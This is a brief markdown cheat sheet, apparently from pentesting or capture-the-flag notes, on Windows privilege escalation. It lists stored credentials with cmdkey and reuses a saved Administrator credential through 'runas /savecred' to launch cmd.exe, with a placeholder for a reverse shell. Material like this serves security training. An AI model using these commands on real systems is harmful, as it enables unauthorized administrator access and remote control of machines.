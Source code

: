 # RUN AS

## List credentials
* cmdkey /list -> Look 👁️ if you have something like interactive=ACCESS\Administrator!! (or whatever user but we're trying to elevate our privilege 🤓)
## Run this 
* C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c INTRUCTION LIKE A REVERSE SHELL OR SOMETHING"
